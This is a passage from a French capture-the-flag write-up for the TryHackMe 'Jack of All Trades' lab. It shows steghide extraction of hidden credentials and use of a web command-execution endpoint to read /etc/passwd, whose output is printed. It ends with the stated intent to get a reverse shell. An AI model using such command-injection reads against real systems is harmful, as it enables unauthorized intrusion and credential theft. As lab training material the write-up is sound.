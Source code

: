 On continue avec les autres images. Il doit bien en avoir une avec ce qu'on recherche !

```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/JackOfAllTrades]
└─$ steghide extract -sf jackinthebox.jpg
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```
Toujours pas...
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/JackOfAllTrades]
└─$ steghide extract -sf header.jpg               
Enter passphrase: 
wrote extracted data to "cms.creds".
```
Hoho !!!!
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/JackOfAllTrades]
└─$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: T********Y
```
Enfin !! Je vais test ca sur la page Recovery.

# Recovery !
Cela fonctionne et redirigie vers **http://10.10.187.114:22/nnx****OV/index.php** qui nous affiche :
```
GET me a 'cmd' and I'll run it for you Future-Jack. 
```
On test !
```
http://10.10.187.114:22/nnx****OV/index.php?cmd=cat /etc/passwd
```
On à bien un résultat :
```
GET me a 'cmd' and I'll run it for you Future-Jack. root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false uuidd:x:104:109::/run/uuidd:/bin/false Debian-exim:x:105:110::/var/spool/exim4:/bin/false messagebus:x:106:111::/var/run/dbus:/bin/false statd:x:107:65534::/var/lib/nfs:/bin/false avahi-autoipd:x:108:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin jack:x:1000:1000:jack,,,:/home/jack:/bin/bash jack:x:1000:1000:jack,,,:/home/jack:/bin/bash
```
Je vais donc pouvoir tester d'avoir un reverse shell.
